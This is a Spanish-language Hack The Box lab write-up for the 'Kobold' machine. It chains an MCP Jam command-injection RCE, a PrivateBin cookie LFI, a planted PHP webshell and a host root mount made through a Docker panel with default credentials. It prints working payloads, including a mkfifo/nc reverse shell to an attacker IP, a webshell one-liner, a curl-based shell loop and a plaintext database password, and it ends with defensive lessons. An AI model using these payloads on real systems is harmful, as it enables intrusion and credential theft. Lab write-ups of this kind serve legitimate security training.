





# Writeup: Kobold (Hack The Box — Easy)

Kobold es una máquina **Easy** que combina múltiples servicios web vulnerables. El recorrido comienza con la enumeración de subdominios que revelan dos aplicaciones: **PrivateBin** y **MCP Jam**. PrivateBin es vulnerable a un LFI (CVE‑2025‑64714) que permite la ejecución de comandos, pero el servicio está en un contenedor. MCP Jam es vulnerable a un RCE (CVE‑2026‑23744) que otorga una shell como el usuario `ben`. Desde allí, se descubren directorios escribibles del grupo `operator` que permiten plantar un webshell en PrivateBin. Con el webshell, se explota el LFI para ejecutar comandos en el contenedor y se extraen credenciales de la base de datos. Finalmente, se descubre un servicio **Arcane** en el puerto 3552 con credenciales por defecto, que permite crear un contenedor con el sistema de archivos raíz montado, obteniendo así acceso root y la flag final.


## Fase 1: Reconocimiento

Realizamos un escaneo de puertos con Nmap para descubrir los servicios expuestos:

```bash
sudo nmap -sS --min-rate 500 -p- -n -Pn -vv 10.129.77.150 -oG allPorts
```

**Resultado:**

```
PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack ttl 63
80/tcp   open  http     syn-ack ttl 63
443/tcp  open  https    syn-ack ttl 63
3552/tcp open  taserver syn-ack ttl 63
```

Realizamos un escaneo de servicios y versiones:

```bash
nmap -sVC -p 22,80,443,3552 10.129.77.150 -oN targeted
```

**Resultados clave:**

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.15
80/tcp   open  http     nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://kobold.htb/
443/tcp  open  ssl/http nginx 1.24.0 (Ubuntu)
| ssl-cert: Subject: commonName=kobold.htb
| Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb
|_http-title: Kobold Operations Suite
3552/tcp open  http     Golang net/http server
```

**Observaciones clave:**

- **Dominio**: `kobold.htb` con certificado SSL.
- **Subdominios wildcard**: `*.kobold.htb` — indica que pueden existir múltiples subdominios.
- **Servicio en puerto 3552**: Servidor HTTP en Go (no identificado inicialmente).

Añadimos el dominio al archivo `/etc/hosts`:

```bash
echo "10.129.77.150 kobold.htb" >> /etc/hosts
```

---

## Fase 2: Enumeración de subdominios

Usamos `ffuf` para descubrir subdominios, aprovechando el certificado wildcard:

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.kobold.htb" -u https://kobold.htb -fs 154
```

**Resultado:**

```
bin                     [Status: 200, Size: 24402, Words: 1218, Lines: 386, Duration: 594ms]
mcp                     [Status: 200, Size: 466, Words: 57, Lines: 15, Duration: 266ms]
```

Encontramos dos subdominios:

- **`bin.kobold.htb`** — Servicio PrivateBin
- **`mcp.kobold.htb`** — Servicio MCP Jam

Añadimos ambos al archivo `/etc/hosts`:

```bash
echo "10.129.77.150 bin.kobold.htb mcp.kobold.htb" >> /etc/hosts
```

---

## Fase 3: Análisis de PrivateBin

### 3.1 Identificación del servicio

Accediendo a `https://bin.kobold.htb`, encontramos **PrivateBin** (versión 2.0.2), un servicio de pastebin minimalista y de código abierto que cifra los datos en el navegador antes de enviarlos al servidor.



### 3.2 Vulnerabilidad CVE‑2025‑64714

Investigando, encontramos que PrivateBin es vulnerable a **CVE‑2025‑64714**, un fallo de inclusión de archivos locales (LFI) mediante path traversal en la cookie `template`. La vulnerabilidad afecta a versiones 1.7.7 hasta 2.0.2 cuando la opción `templateselection` está habilitada.

**Mecanismo técnico:**

El backend construye la ruta del archivo de plantilla concatenando:

```
Ruta Final = [Ruta_Raíz]/tpl/ + [Valor_de_la_Cookie] + .php
```

Al inyectar secuencias `../`, un atacante puede salir del directorio `tpl/` y leer archivos internos de la aplicación. Sin embargo, la extensión `.php` se añade automáticamente, por lo que solo se pueden leer archivos `.php` existentes.

Probamos la vulnerabilidad modificando la cookie `template`:

```http
GET / HTTP/1.1
Host: bin.kobold.htb
Cookie: template=../cfg/conf
```

```http
HTTP/1.1 500 Internal Server Error
```

El servidor devuelve un error 500, lo que indica que la ruta no es válida o el archivo no existe.

---

## Fase 4: Análisis de MCP Jam (CVE‑2026‑23744)

### 4.1 Identificación del servicio

Accediendo a `https://mcp.kobold.htb`, encontramos **MCP Jam**, una herramienta de desarrollo para probar e inspeccionar servidores basados en el Model Context Protocol (MCP).



### 4.2 Vulnerabilidad CVE‑2026‑23744

Investigando, encontramos que MCP Jam es vulnerable a **CVE‑2026‑23744**, una vulnerabilidad de Ejecución Remota de Código (RCE) en el endpoint `/api/mcp/connect`. La aplicación escucha en todas las interfaces (`0.0.0.0`) y permite manipular los campos `command` y `args` para ejecutar comandos arbitrarios en el servidor.

### 4.3 Explotación del RCE

Capturamos la petición con Burp Suite y la enviamos al Repeater.

**Petición original:**

```http
POST /api/mcp/connect HTTP/1.1
Host: mcp.kobold.htb
Content-Type: application/json
Content-Length: 141

{"serverConfig":{"timeout":10000,"url":"http://localhost:8080/","requestInit":{"headers":{}}},"serverId":"My_Hacker_Server"}
```

**Petición manipulada (prueba de ping):**

```json
{
  "serverConfig": {
    "command": "sh",
    "args": ["-c", "ping -c 4 10.10.17.44"],
    "env": {}
  },
  "serverId": "My_Hacker_Server"
}
```

**Confirmación en nuestra máquina Kali:**

```bash
sudo tcpdump -i tun0 icmp -n
```

```
19:18:15.049497 IP 10.129.245.50 > 10.10.17.44: ICMP echo request, id 2377, seq 1, length 64
19:18:15.049537 IP 10.10.17.44 > 10.129.245.50: ICMP echo reply, id 2377, seq 1, length 64
...
```

Los paquetes ICMP confirman la ejecución remota de comandos.

### 4.4 Reverse Shell

Enviamos un payload para obtener una reverse shell:

```json
{
  "serverConfig": {
    "command": "sh",
    "args": ["-c", "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.17.44 443 >/tmp/f"],
    "env": {}
  },
  "serverId": "My_Hacker_Server"
}
```

Recibimos la conexión:

```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.17.44] from (UNKNOWN) [10.129.245.50] 56982
sh: 0: can't access tty; job control turned off
$ id
uid=1001(ben) gid=1001(ben) groups=1001(ben),37(operator)
```

Somos el usuario **`ben`** con GID 37 (grupo `operator`).

---

## Fase 5: Enumeración local y escalada en el contenedor

### 5.1 Enumeración de directorios del grupo `operator`

El usuario `ben` pertenece al grupo `operator` (GID 37). Buscamos directorios con este grupo:

```bash
$ find / -group operator 2>/dev/null
/privatebin-data
/privatebin-data/certs
/privatebin-data/certs/key.pem
/privatebin-data/certs/cert.pem
/privatebin-data/data
/privatebin-data/data/purge_limiter.php
/privatebin-data/data/bd
/privatebin-data/data/bd/b5
/privatebin-data/data/.htaccess
/privatebin-data/data/e3
/privatebin-data/data/traffic_limiter.php
/privatebin-data/data/salt.php
```

El directorio `/privatebin-data` es escribible por el grupo `operator`:

```bash
$ ls -la /privatebin-data
total 20
drwxrwx---  5 root operator 4096 Mar 15 21:23 .
drwxr-xr-x 22 root root     4096 Mar 16 20:57 ..
drwxrwx---  2 root operator 4096 Mar 15 21:23 certs
drwxr-x---  2 root       82 4096 Mar 15 21:23 cfg
drwxrwxrwx  6 root operator 4096 Aug  3 22:48 data
```

El directorio `data` tiene permisos `777` (escritura para todos).

### 5.2 Plantación de una webshell

Desde el directorio `data`, creamos un archivo PHP que ejecutará comandos arbitrarios:

```bash
$ echo '<?php system($_REQUEST["cmd"]); ?>' > /privatebin-data/data/cmd.php
```

### 5.3 Explotación del LFI para ejecutar comandos

Recordando la vulnerabilidad LFI de PrivateBin, ahora podemos apuntar a nuestro archivo `cmd.php` en el directorio `data`. El valor de la cookie debe ser `../data/cmd` (que se resuelve a `/privatebin-data/data/cmd.php` con la extensión `.php` añadida).

```bash
curl -k --cookie 'template=../data/cmd' 'https://bin.kobold.htb/' --data 'cmd=id'
```

```bash
uid=65534(nobody) gid=82(www-data) groups=82(www-data)
```

Ejecutamos comandos en el contenedor de PrivateBin como el usuario `nobody` (UID 65534) y grupo `www-data` (GID 82).

### 5.4 Script para shell interactiva

Creamos un script `shell.sh` para facilitar la ejecución de comandos:

```bash
#!/bin/bash

URL="https://bin.kobold.htb/"
COOKIE="template=../data/cmd"

while true; do
    read -p "\$ " cmd
    if [[ "$cmd" == "exit" || "$cmd" == "quit" ]]; then
        echo "Saliendo..."
        break
    fi
    if [[ -z "$cmd" ]]; then
        continue
    fi
    curl -k -s --cookie "$COOKIE" "$URL" --data-urlencode "cmd=$cmd"
    echo ""
done
```

Ejecutamos el script:

```bash
./shell.sh
=== Shell Interactiva via LFI ===
Usuario actual: nobody / www-data
Escribe 'exit' o 'quit' para salir.
-----------------------------------
$ id
uid=65534(nobody) gid=82(www-data) groups=82(www-data)
```

---

## Fase 6: Enumeración del contenedor de PrivateBin

### 6.1 Estructura del contenedor

Desde la shell del contenedor, enumeramos el directorio `/srv` que contiene los archivos de la aplicación:

```bash
$ ls -la /srv
total 32
drwxr-xr-x    1 root     root          4096 Oct 28  2025 .
drwxr-xr-x    1 root     root          4096 Mar 15 21:23 ..
drwxrwxr-x    2 nobody   www-data      4096 Oct 28  2025 bin
drwxr-x---    2 root     www-data      4096 Mar 15 21:23 cfg
drwxrwxrwx    5 root     37            4096 Aug  4 18:26 data
drwxrwxr-x    6 nobody   www-data      4096 Oct 28  2025 lib
drwxrwxr-x    2 nobody   www-data      4096 Oct 28  2025 tpl
drwxrwxr-x   20 nobody   www-data      4096 Oct 28  2025 vendor
```

El directorio `data` es el mismo que `/privatebin-data/data` del host (un montaje de volumen).

### 6.2 Credenciales de la base de datos

Leemos el archivo de configuración de PrivateBin:

```bash
$ cat /srv/cfg/conf.php
```

```php
[model_options]
dsn = "mysql:host=localhost;dbname=privatebin;charset=UTF8"
tbl = "privatebin_"
usr = "privatebin"
pwd = "ComplexP@sswordAdmin1928"
opt[12] = true
```

Encontramos credenciales de MySQL:

- **Usuario**: `privatebin`
- **Contraseña**: `ComplexP@sswordAdmin1928`

### 6.3 Verificación de la base de datos

Sin embargo, no hay base de datos MySQL en el contenedor:

```bash
$ netstat -nltp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      20/nginx
tcp        0      0 :::8080                 :::*                    LISTEN      20/nginx
```

La base de datos está en el host, no en el contenedor. Las credenciales serán útiles más adelante.

---

## Fase 7: Escalada al host mediante Arcane

### 7.1 Descubrimiento del servicio Arcane

Recordamos el puerto 3552 que no habíamos investigado. Accedemos a `https://kobold.htb:3552` y encontramos la interfaz de login de **Arcane**, una plataforma de gestión de Docker de código abierto.



### 7.2 Credenciales por defecto

Investigando, encontramos que las credenciales por defecto para Arcane son `arcane:arcane-admin`. Probamos usando el usuario por defecto junto con la contraseña que enontramos anteriormente y accedemos al panel de administración.


### 7.3 Creación de un contenedor con montaje del sistema host

Arcane permite gestionar contenedores Docker. Desde el panel, vamos a **Containers → Create Container**.

Configuramos el contenedor:

- **Image**: `privatebin/nginx-fpm-alpine:2.0.2` (imagen ya presente en el sistema)
- **Volumes**: Añadimos un montaje del sistema de archivos raíz del host (`/`) en `/mnt` dentro del contenedor.





Creamos el contenedor y accedemos a su **Shell** desde el panel.

### 7.4 Acceso root

Dentro del contenedor, el sistema de archivos del host está montado en `/mnt`:

```bash
/mnt # ls
app              home             opt              snap
bin              lib              privatebin-data  srv
boot             lib64            proc             sys
cdrom            lost+found       root             tmp
dev              media            run              usr
etc              mnt              sbin             var
```

Accedemos al directorio `/root` del host y leemos la flag:

```bash
/mnt # cd /mnt/root
/mnt/root # ls -la
total 87268
drwx------    7 root     root          4096 Aug  4 18:09 .
drwxr-xr-x   22 root     root          4096 Mar 16 20:57 ..
-rw-r--r--    1 root     root            29 Mar 19 03:09 .bash_history
-rw-r--r--    1 root     root          3106 Apr 22  2024 .bashrc
drwx------    2 root     root          4096 Mar 15 21:23 .cache
drwxr-xr-x    3 root     root          4096 Mar 15 21:23 .local
drwxr-xr-x    4 root     root          4096 Mar 15 21:23 .npm
-rw-r--r--    1 root     root           161 Apr 22  2024 .profile
drwx------    2 root     root          4096 Mar 15 21:23 .ssh
-rwxr-xr-x    1 root     root      89313464 Jan 15  2026 arcane_linux_amd64
drwxr-xr-x    3 root     root          4096 Aug  4 18:08 data
-rw-r-----    1 root     root            33 Aug  4 18:09 root.txt
```

```bash
/mnt/root # cat root.txt
[REDACTED]
```

¡Obtenemos la **flag de root**!

---

## 📌 Conclusión

Kobold es una máquina **Easy** que combina:

1. **Enumeración de subdominios** para descubrir `bin.kobold.htb` y `mcp.kobold.htb`.
2. **Explotación de CVE‑2026‑23744** en MCP Jam para obtener una reverse shell como `ben`.
3. **Enumeración de directorios escribibles** del grupo `operator` en PrivateBin.
4. **Plantación de una webshell** y uso del LFI (CVE‑2025‑64714) para ejecutar comandos en el contenedor de PrivateBin.
5. **Extracción de credenciales** de la base de datos desde el archivo de configuración.
6. **Descubrimiento de Arcane** en el puerto 3552 y uso de credenciales por defecto.
7. **Creación de un contenedor con montaje del sistema host** para obtener acceso root.

---

## 📚 Lecciones aprendidas:

1. **La enumeración de subdominios amplía la superficie de ataque**

   El certificado wildcard ayudó a identificar posibles hosts virtuales, pero los subdominios deben validarse mediante enumeración activa, pasiva y revisión de DNS.

2. **Las credenciales por defecto deben eliminarse**

   Arcane utilizaba credenciales conocidas, lo que permitió acceder a una interfaz de administración. Las credenciales iniciales deben cambiarse, almacenarse de forma segura y protegerse con MFA cuando sea posible.

3. **Una vulnerabilidad LFI puede combinarse con escritura de archivos**

   El LFI de PrivateBin no ejecutaba comandos directamente. La ejecución fue posible porque el grupo `operator` podía escribir un archivo PHP dentro de una ruta que la aplicación podía incluir.

4. **Los permisos de archivos y grupos deben aplicarse con mínimo privilegio**

   El usuario `ben` pertenecía al grupo `operator`, que tenía escritura sobre `/privatebin-data/data`. Los directorios de aplicaciones no deberían ser escribibles por grupos amplios ni contener archivos que puedan ser interpretados como código.

5. **Los archivos de configuración no deben contener secretos en texto plano**

   El archivo `conf.php` exponía credenciales de MySQL. Deben utilizarse Secrets Manager, Vault u otro mecanismo seguro, además de rotar inmediatamente las credenciales cuando sean expuestas.

6. **Los contenedores no deben recibir montajes arbitrarios del host**

   Permitir que un usuario monte `/` dentro de un contenedor elimina gran parte del aislamiento y permite leer o modificar archivos del host. Las interfaces de gestión de contenedores deben restringir los bind mounts y protegerse con autenticación fuerte. [docs.docker](https://docs.docker.com/security/faqs/containers/)

7. **La administración de Docker debe tratarse como acceso privilegiado**

   Arcane podía crear contenedores con configuraciones peligrosas. El acceso a Docker, a su socket o a herramientas de gestión debe limitarse a administradores autorizados y auditarse.

8. **La cadena demuestra la importancia de la defensa en profundidad**

   El compromiso requirió encadenar varios fallos:

   ```text
   RCE en MCP Jam
   → escritura en un directorio sensible
   → LFI con ejecución de PHP
   → credenciales expuestas
   → Arcane con credenciales por defecto
   → montaje de /
   → acceso root
   ```
